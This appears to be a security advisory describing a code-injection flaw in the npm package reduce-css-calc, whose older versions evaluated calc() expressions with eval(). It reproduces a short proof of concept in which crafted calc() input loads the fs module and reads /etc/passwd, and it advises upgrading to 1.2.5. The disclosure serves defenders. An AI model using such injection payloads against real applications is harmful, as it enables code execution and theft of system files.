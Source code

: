 ## Overview
`reduce-css-calc` is a package that reduces CSS calc() function to the maximum. Affected versions of the package used `evail()` for evaluation the expression, allowing the attacker to gain arbitrary code execution via specially crafted input.

## Example
The [issue](https://gist.github.com/ChALkeR/415a41b561ebea9b341efbb40b802fc9) was reported by [ChALkeR] (https://github.com/ChALkeR) and demonstrated by his [example](https://gist.github.com/ChALkeR/415a41b561ebea9b341efbb40b802fc9) below:

```
const reduceCSSCalc = require('reduce-css-calc');
console.log(reduceCSSCalc(`calc(                       (Buffer(10000)))`));
console.log(reduceCSSCalc(`calc(                       (global['fs'] = require('fs')))`));
console.log(reduceCSSCalc(`calc(                       (fs['readFileSync']("/etc/passwd", "utf-8")))`));
```

## Remediation
Upgrade `reduce-css-calc` version 1.2.5 or greater.

## References
- https://gist.github.com/ChALkeR/415a41b561ebea9b341efbb40b802fc9
- https://github.com/MoOx/reduce-css-calc/blob/master/CHANGELOG.md#125---2016-08-22
